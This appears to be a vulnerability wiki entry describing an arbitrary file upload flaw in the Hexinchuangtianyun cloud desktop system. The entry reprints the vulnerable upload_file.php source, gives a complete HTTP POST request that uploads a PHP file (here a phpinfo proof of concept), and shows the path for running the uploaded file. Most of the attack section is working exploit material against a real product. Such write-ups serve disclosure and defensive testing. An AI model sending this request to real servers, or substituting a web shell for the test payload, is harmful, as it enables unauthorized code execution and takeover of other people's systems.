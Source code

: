 # Hexinchuangtianyun desktop system upload_file.php remote command execution vulnerability

## Vulnerability Description

The default configuration of Hexinchuangtianyun desktop system causes files to be uploaded and can be executed remotely.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Hexinchuangtianyun desktop system</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Hexin Next Generation Cloud Desktop VENGD</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337842.png)



The vulnerable file is `upload_file.php`

```python
<?php
function writeLog($msg){
    $logFile = date('Y-m-d').'.txt';
    $msg = date('Y-m-d H:i:s').' >>> '.$msg."\r\n";
    file_put_contents($logFile,$msg,FILE_APPEND );
}
//require("vesystem/msg_define/session_lib.php");
if ($_FILES["file"]["error"] > 0)
{
  //  echo "Return Code: " . $_FILES["file"]["error"] . "<br />";
}
else
{
    echo "_Requst:<br>";
        /*     foreach($_REQUEST as $name => $value)
            {
                 $name."=".$value."<br>";
            }
            //echo "_FILES:<br>";
            foreach($_FILES as $array_name=>$array_value)
            {    
            $array_name."=".$array_value."<br>";
                foreach($_FILES[$array_name] as $name => $value)
                {
                $name."=".$value."<br>";
                }
            } */
        $l = $_GET['l'];
        
        //拆分字符串按“/”分割字符
        $arrpath = explode("/",$l);
        $m = count($arrpath);
        
        
        $file_e = "";
        if ($m>1){
            for($i=0;$i<$m;$i++){
                $file_e .= $arrpath[$i];
                
                
                if(!file_exists($file_e)){
                    mkdir($file_e, 0777);
                }
                $file_e .= "/";
            }
            
        }else{
            
            //判断文件夹是否存在 ，不存在就新建个
            
            
            if(!file_exists($l)){
                mkdir("$l", 0777);
            }
        }
        
        
        
        $target_path=$_SERVER["DOCUMENT_ROOT"]."/Upload/".$l."/".$_FILES["file"]["name"];
       
       
        if (file_exists($target_path))
        {
            unlink($target_path);
        }
        
        
        $a = 'old_file='.$_FILES["file"]["tmp_name"];
        
        writeLog($a);
        writeLog('new_file='.$target_path);
    $target_path = str_replace ( '//', '/', $target_path );
    
    writeLog('new_file2='.$target_path);
    
   $varerror =  move_uploaded_file($_FILES["file"]["tmp_name"],$target_path);
    
    writeLog('$varerror='.$varerror);
}
?>
```



Send the request packet as follows

```plain
POST /Upload/upload_file.php?l=1 HTTP/1.1
Host: xxx.xxx.xx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 182

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--
```



access

```plain
https://xxx.xx.xxx.xxx/Upload/1/test.php
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313160337610.png)